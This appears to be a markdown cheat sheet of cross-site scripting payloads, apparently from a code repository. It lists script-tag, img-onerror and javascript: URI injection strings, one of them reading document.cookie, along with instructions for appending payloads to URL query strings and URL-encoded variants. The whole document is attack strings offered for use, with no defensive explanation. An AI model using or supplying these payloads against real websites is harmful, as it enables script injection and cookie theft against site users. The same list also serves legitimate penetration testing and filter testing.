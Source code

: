 ## XSS Payloads

`<script>alert('XSS')</script>`

`<script>alert(document.cookie)</script>`

`<script>alert('Hacked!')</script>@test.com`

`<script>alert(document.domain + 'XSS: File Content')</script>`

`">Hacked!<script>alert('Hacked')</script>`

`"><script>prompt(1)</script>`

`">hello<IMG SRC=javascript:alert(1)>om"`

`<img src=x onerror="alert('XSS: Developer Hates Scripts!')">`

`"><img src="x" onerror="alert('XSS')">`

`">hello<IMG SRC=javascript:alert(test)>"`

## URL
Add `?` to the URL before any of the listed payloads. 

`?coin=btc`

`?<img src =x onerror=confirm("COINS_HACKED!")>`

## HTML or URL Encoding
`%22%3E%3Cscript%3Ealert%28%27XSS%3A+Encoded%21%27%29%3C%2Fscript%3E`
  
  `%22%3Ehello%3CIMG+SRC%3Djavascript%3Aalert%281%29%3E%[40test.com](http://40test.com/)%22`

